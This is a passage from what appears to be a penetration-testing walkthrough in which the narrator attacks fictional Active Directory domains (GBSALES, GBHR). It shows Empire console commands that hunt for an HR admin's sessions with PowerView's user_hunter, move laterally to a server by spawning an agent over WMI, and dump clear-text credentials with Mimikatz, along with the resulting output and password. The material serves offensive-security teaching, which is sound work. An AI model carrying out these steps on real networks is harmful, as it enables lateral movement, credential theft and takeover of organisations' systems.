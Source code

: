 The principle is quite simple: we continuously crosscheck this list against currently active users on different GBSALES and GBSHOP servers – more than 400 machines. If we spot one of the GBHR admins on a given machine, we connect to it, dump clear text passwords using Mimikatz, etc. If we are not lucky (sometimes there is little activity going on), we try again in a few hours. It is only logical, after all, that at some point in time an HR admin account will fetch a GBSHOP or GBSALES resource. Why bother setting up a bidirectional trust in the first place otherwise?

```
Empire: salesFTP) > usemodule situational_awareness/network/powerview/user_hunter
(Empire: user_hunter) > execute
```

Note: *the primary goal of the user_hunter module is to identify the locations of specific domain users across the network. This is particularly useful for tracking down high-value targets like domain admins or service accounts. The module scans Active Directory and checks the sessions on various machines to see where a specified user is currently logged in or has an active session. It helps attackers (or penetration testers) identify where privileged accounts (e.g., domain admins) are logged in. This is crucial for lateral movement and privilege escalation. By frequently running this module, one can monitor the presence of specific users across the network, making it easier to plan subsequent attacks.*

A portion of this output has been omitted, but the part we are interested in goes like this:

```
UserDomain  : GBHR
UserName    : svc_ps
ComputerName: SL0213.GBSALES.CORP
IPAddress   : 10.30.30.213
```

There seems to be interesting activity on server SL0213 belonging to the GBSALES domain. We move to that server by spawning a remote Empire agent using WMI:

```
(Empire: salesFTP) > usemodule lateral_movement/invoke_wmi
(Empire: invoke_wmi) > set Listener FrontGun_List
(Empire: invoke_wmi) > set ComputerName SL0213.GBSALES.CORP
(Empire: invoke_wmi) > run
[+] Initial agent BHNS2HZGPF43TDRX from 10.30.30.213 now active
(Empire: invoke_wmi) > interact BHNS2HZGPF43TDRX
(Empire: BHNS2HZGPF43TDRX) > rename SL0213
(Empire: SL0213) >
```

Once the agent is active, we unleash Mimikatz to extract credentials:

```
(Empire: SL0213) > mimikatz
Job started: Debug32_md6ll
```

The relevant output reveals:

```
* Username : GBHR\svc_ps
* Domain   : GBHR
* Password : Sheldon*01
```
